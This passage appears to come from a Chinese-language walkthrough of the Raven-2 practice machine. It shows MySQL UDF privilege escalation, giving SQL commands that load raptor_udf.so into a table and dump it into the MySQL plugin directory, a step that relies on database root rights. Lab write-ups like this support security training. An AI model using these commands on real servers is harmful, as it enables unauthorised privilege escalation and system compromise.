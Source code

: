 ![连接数据库](./Raven-2/连接数据库.png)

进入数据库进行 UDF 导出。

创建表，将`raptor_udf.so`的内容写入表里面。

将表导出到`/usr/lib/mysql/plugin/raptor_udf.so`下（相当于将`raptor_udf.so`导出到`/usr/lib/mysql/plugin/raptor_udf.so`目录里面，这里是利用MySQL的root权限才能导出，普通用户没有这个权限）

```mysql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf.so';
```
